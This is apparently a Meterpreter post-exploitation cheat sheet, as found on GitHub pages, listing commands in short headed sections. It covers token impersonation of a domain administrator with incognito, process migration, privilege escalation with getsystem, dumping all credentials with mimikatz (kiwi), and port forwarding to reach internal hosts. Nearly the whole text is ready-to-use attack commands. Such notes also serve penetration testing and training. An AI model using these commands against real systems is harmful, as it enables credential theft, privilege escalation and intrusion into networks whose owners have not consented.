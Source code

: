 ### incognito 
```
mtr> load incognito
mtr> list_tokens -u
mtr> impersonate_token APT\\Administrator
```

### drop token
```
mtr> drop_token
```

### migrate to x64 process
```
mtr> ps
mtr> migrate <spoolId>
```

### get user id
```
mtr> getuid
```

### mimikatz
```
mtr> getsystem
mtr> load kiwi
mtr> creds_all
```

### port forwarding - the target ip is the host whih can not be reached from the outside of the network
```
mtr> portfwd add –l <listenPort> –p <remotePort> –r <rhost>
```

